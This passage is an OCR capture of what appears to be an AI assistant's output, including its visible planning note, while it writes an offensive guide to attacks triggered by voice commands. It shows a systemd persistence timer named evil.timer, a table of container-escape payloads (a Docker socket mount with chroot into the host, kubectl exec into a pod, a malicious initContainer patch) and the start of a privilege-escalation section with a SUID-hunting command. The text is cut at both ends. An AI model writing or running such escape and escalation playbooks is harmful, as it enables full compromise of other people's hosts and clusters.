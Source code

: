      [Timer]
     OnCalendar=*-*-* *:*:0/5

     [Install]
     WantedBy=timers.target
     ```
   * Linux: writes `/etc/systemd/system/evil.timer` → `systemctl enable evil.timer`

---

### 7.5 Container Escape via Voice Commands

| Vector                             | Voice Payload                                                      | Linux / Container Primitive                                                                      |
| ---------------------------------- | ------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------ |
| Docker socket mount                | `docker run --rm -v /:/host alpine chroot /host /bin/bash`         | `execve("docker",…)` → `runc create` → `clone()` new namespaces                                  |
| Kubernetes API server abuse        | `kubectl exec -it support-handler -- bash`                         | `execve("kubectl",…)` → API server `POST /api/v1/namespaces/.../pods/.../exec` → container shell |
| Privileged initContainer injection | “Enable debug mode” → writes malicious initContainer to Deployment | `kubectl patch deployment` via D-Bus signal mapped to `kubectl` binary                           |

---

**Organizing privilege escalation content**

I’m realizing that the user mentioned Section 8 needs to cover Privilege Escalation Chains, but the structure initially had conflicting numbering. The summary clarifies that it should cover topics like SUID hunting, systemd tricks, and Kubernetes RBAC bypass, all linked to concepts like Linux capabilities, syscalls, and D-Bus calls. I’ll focus on creating the section and subsections, making sure to flesh it out fully—no need for the rest of the outline at this stage. I'll proceed with this section and integrate the relevant examples.


Thought for 5 seconds


````markdown
## 8. Privilege Escalation Chains  

> In this section we “peel” each elevation step back to raw Linux capabilities, D-Bus calls, systemd units, and Kubernetes RBAC primitives—demonstrating how a single voice command can cascade into full host or cluster compromise.

---

### 8.1 SUID Binary Hunting via Voice  

Many Linux installations include SUID binaries that, if writable or misconfigured, allow privilege escalation.

#### 8.1.1 Discovery with `find`  

```bash
# Voice-triggered discovery
# Voice Phrase: “Find all SUID files”
find / -type f -perm -4000 2>/dev/null | tee /tmp/suid_list.txt
````
